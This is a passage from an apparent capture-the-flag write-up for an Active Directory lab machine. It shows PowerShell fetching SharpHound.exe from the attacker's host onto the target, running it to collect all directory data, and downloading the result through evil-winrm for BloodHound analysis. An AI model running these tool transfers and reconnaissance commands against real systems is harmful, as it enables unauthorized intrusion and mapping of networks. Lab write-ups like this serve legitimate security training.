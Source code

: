 > Then, because this is an AD challenge
> I also enumerate the system by bloodhound 
> Actually, the result has a little different to the walkthrough from internet or ippsec's writeup

1. Upload sharphound to target 

```
iwr -uri http://10.10.17.145/SharpHound.exe -OutFile sharp.exe
```

![](./IMG/27.png)

2. Execute sharphound to gathering information 

```
.\sharp.exe -c all
```

![](./IMG/29.png)

3. Transfer the result file (zip file ) to local 

> In evil-winrm, I can execute download directly

```
download 20240524232652_BloodHound.zip
```

![](./IMG/28.png)

4. Upload it to BloodHound, start to analysis 

> Check all user 

